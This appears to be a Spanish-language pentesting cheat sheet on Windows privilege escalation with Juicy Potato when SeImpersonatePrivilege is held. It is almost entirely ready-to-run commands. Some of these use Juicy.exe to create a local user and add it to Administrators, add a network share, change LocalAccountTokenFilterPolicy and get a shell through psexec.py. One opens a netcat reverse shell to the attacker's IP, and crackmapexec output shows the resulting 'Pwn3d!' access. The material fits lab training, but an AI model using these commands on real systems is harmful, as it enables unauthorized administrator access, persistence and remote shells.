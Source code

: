 # Juicy Potato 

Cuando tenemos el Privilegio "Se Impersonate Privilege" en un Usuario, procedemos a usar Juicy Potato

# Sintaxis Creando un Nuevo Usuario a nivel de sistema
E introduciendolo en el grupo Admins

```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user paco paco1234$ /add"

Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup administrators paco /add"
```

# Procedemos a comprobar el usuario con `Crackmapexec`
En busca del pwned, chequeamos...
```bash
crakmapexec smb IP -u paco -p paco123$

Ejemplo de lo que buscamos
# crackmapexec smb 192.168.177.10 -u administrator -p lab 
SMB         192.168.177.10  445    CLIENT251        [*] Windows 10 Pro 16299 (name:CLIENT251) (domain:corp.com) (signing:False) (SMBv1:True)
SMB         192.168.177.10  445    CLIENT251        [+] corp.com\administrator:lab (Pwn3d!)
```

Si NO resulta pwned procdemos a hacer lo siguiente

# Sintaxis creando un nuevo recurso compartido a nivel de red

Se Tenso por aqui
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share paco_folder=C:\Windows\Temp\privilege /add"
```

# Modificando el Registro Oportuno

Para conseguir el Pwned y poder utilizar `PSEXEC.PY`
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

# Psexec.py

Una vez seguidos los pasos el usiario Paco deberia estar Pwned y podriamos lanzarnos una Shell.
```bash
# psexec.py WORKGROUP/paco@10.11.1.13 cmd
```

# JuicyPotato para ejecutar un comando

En caso de que tuviesemos un nc.exe descargado, lanzarnos una RevShell
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd (OUR IP PORT)
```
Tambien esta el rottenpotato.exe que veremos mas adelante.

# PrintSpoofer.exe
SeImpersonatePrivilege + Microsoft Windows Server 2019 Standard = PrintSpoofer64.exe





